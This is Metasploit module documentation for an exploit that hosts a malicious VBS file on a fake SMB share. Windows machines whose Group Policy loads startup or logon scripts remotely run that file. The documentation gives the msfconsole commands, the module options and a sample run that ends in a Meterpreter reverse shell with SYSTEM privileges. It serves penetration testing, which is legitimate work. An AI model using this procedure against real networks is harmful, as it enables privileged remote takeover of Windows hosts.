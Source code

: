 ## Vulnerable Application

This is a general-purpose module for exploiting systems with Windows Group Policy configured to load VBS startup/logon scripts from remote locations. This module runs a SMB shared resource that will provide a payload through a VBS file. Startup scripts will be executed with SYSTEM privileges, while logon scripts will be executed with the user privileges. The attacker still needs to redirect the target traffic to the fake SMB share to exploit it successfully. Please note in some cases, it will take 5 to 10 minutes to receive a session.

More information available at [Gotham Digital Science Security](https://blog.gdssecurity.com/labs/2015/1/26/badsamba-exploiting-windows-startup-scripts-using-a-maliciou.html)

## Verification Steps

2. Start msfconsole
3. Do: `use modules/exploits/windows/smb/group_policy_startup`
4. Do: `exploit`

## Options

```
set FILE_NAME [string]
```
VBS File name to share (Default: random .vbs)

```
set FOLDER_NAME [string]
```
Folder name to share (Default: none)

```
set SHARE [string]
```
Share (Default: Random)

```
set SRVHOST [integer]
```
The local host to listen on. This must be an address on the local machine or 0.0.0.0

```
set SRVPORT [integer]
```
The local port to listen on.

## Scenarios

A run on Windows 7 (x64, Build 7601, SP1) and Server 2016 (x64, Version 1607, OS Build 14393.970) using Group Policy applied from the Domain Controller.

  ```
  msf > use modules/exploits/windows/smb/group_policy_startup
  msf exploit(windows/smb/group_policy_startup) > set FILE_NAME startup.vbs
    FILE_NAME => startup.vbs
  msf exploit(windows/smb/group_policy_startup) > set SHARE scripts
    SHARE => scripts
  msf exploit(windows/smb/group_policy_startup) > exploit
    [*] Exploit running as background job 0.
    [*] Exploit completed, but no session was created.

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] File available on \\192.168.1.3\scripts\startup.vbs...
    [*] Started service listener on 192.168.1.3:445
    [*] Server started.
    [*] Sending stage (180291 bytes) to 192.168.1.4
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.4:49178) at 2019-12-04 13:12:05 -0700
  msf exploit(windows/smb/group_policy_startup) > sessions 1
    [*] Starting interaction with 1...

    meterpreter > sysinfo
    Computer        : MSF-PC
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x64
    System Language : en_US
    Domain          : MSF
    Logged On Users : 1
    Meterpreter     : x86/windows
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
  ```
